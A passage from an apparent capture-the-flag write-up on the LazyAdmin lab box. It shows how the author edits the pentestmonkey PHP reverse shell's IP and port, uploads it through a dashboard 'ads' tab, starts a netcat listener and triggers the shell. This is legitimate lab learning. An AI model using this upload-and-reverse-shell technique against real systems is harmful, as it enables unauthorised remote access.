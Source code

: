 ### Reverse Shell - User Flag

Using the usual PHP reverse shell from [pentestmonkey](www.github.com/pentestmonkey/php-reverse-shell), I modified the
exploit's IP to match my host's IP.

```PHP
$ip = '<host_ip>';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Next, I uploaded the PHP exploit on the `ads` tab on the dashboard, giving it the name `exploit`, and submitted it.

![ads](./img/lazyadmin/11.png)

From there, I started a netcat listener on my host device.

```bash
nc -lvnp 1234
```

Then, to run the exploit, I went to `http://<ip>/content/inc/ads/exploit`.

On my netcat listener, I got a connection! I then stabilised the shell so that I could use more commands.

![stabilise](./img/lazyadmin/12.png)
